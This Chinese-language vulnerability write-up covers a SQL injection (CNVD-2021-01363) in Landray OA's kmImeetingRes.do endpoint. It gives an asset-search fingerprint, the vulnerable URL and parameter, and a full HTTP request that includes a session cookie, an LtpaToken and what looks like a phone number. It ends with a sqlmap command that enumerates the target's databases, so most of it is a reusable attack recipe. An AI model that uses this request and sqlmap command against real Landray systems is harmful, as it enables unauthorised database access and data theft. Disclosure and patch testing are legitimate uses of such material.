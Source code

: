 # 蓝凌OA kmImeetingRes.do 后台SQL注入漏洞 CNVD-2021-01363

## 漏洞描述

深圳市蓝凌软件股份有限公司数字OA(EKP)存在SQL注入漏洞。攻击者可利用漏洞获取数据库敏感信息。

## 漏洞影响

<a-checkbox checked>蓝凌OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Landray-OA系统"</a-checkbox></br>

## 漏洞复现

存在SQL注入的 Url为,这里拿官方的演示站点演示漏洞过程

```plain
https://xxx.xxx.xxx.xxx/km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true
```

其中存在SQL注入的参数为 `ordeby` ， 数据包如下

```sql
GET /km/imeeting/km_imeeting_res/kmImeetingRes.do?contentType=json&method=listUse&orderby=1&ordertype=down&s_ajax=true HTTP/1.1
Host: 
Connection: close
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: UM_distinctid=1785f7392888e1-02ece8c7e9a996-5771031-1fa400-1785f73928943d; landray_danyuan=null; landray_guanjianci=null; landray_sorce=baidupinzhuanwy; landray_jihua=null; JSESSIONID=232B6933CF33B5422F9D2649739D48FE; Hm_lvt_223eecc93377a093d4111a2d7ea28f51=1616509114,1616566341,1616566350; Hm_lpvt_223eecc93377a093d4111a2d7ea28f51=1616566350; Hm_lvt_d14cb406f01f8101884d7cf81981d8bb=1616509114,1616566341,1616566350; Hm_lpvt_d14cb406f01f8101884d7cf81981d8bb=1616566507; Hm_lvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616509872,1616509969,1616509973,1616566507; Hm_lpvt_95f4f43e7aa1fe68a51c44ae4eed925d=1616566507; Hm_lvt_22f1fea4412727d23e6a998a4b46f2ab=1616509872,1616509969,1616509973,1616566507; Hm_lpvt_22f1fea4412727d23e6a998a4b46f2ab=1616566507; fd_name=%E5%95%8A%E7%9A%84%E5%93%88; fd_id=1785f817dd0f5a4beaa482646cb9a2d8; nc_phone=15572002383; j_lang=zh-CN; LtpaToken=AAECAzYwNUFEOEZBNjA1QjgxQkFsdW9stJ5e1pcW1hgQi3cOa0iEyAhdZZs=; Hm_lvt_95cec2a2f107db33ad817ed8e4a3073b=1616510026,1616566523; Hm_lpvt_95cec2a2f107db33ad817ed8e4a3073b=1616566523; add_customer=0
```



保存为文件，使用 Sqlmap 跑一下注入

```plain
sqlmap -r sql.txt -p orderby --dbs
```

![img](/assets/PeiQi-Wiki/img/lanling-1.png)